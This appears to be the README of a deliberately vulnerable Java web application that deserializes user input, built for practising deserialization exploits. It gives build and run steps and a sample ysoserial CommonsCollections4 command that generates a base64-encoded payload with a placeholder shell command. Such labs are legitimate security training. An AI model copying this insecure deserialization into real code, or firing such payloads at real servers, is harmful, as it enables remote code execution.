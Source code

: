 # java-deserialize-webapp

This application is attempts to java deserialize user provided input. commons-collections4:4.0 is on classpath and can be used for exploitation.

## Building

(already done)

```sh
mvn clean package
```

## Running

By default, application binds to 0.0.0.0:8000 (to bind to localhost, edit src/main/java/hvqzao/java/deserialize/webapp/embedded/Server.java file).

Linux:

```sh
cd java-deserialize-webapp
sh target/bin/webapp
```

Windows:

```sh
cd java-deserialize-webapp
start target/bin/webapp.bat
```

## Example attack

```sh
java -jar ysoserial-0.0.4-all.jar CommonsCollections4 'shell command...' | base64 | tr -d "\n"
```

## License

[MIT License](https://github.com/twbs/bootstrap/blob/master/LICENSE)

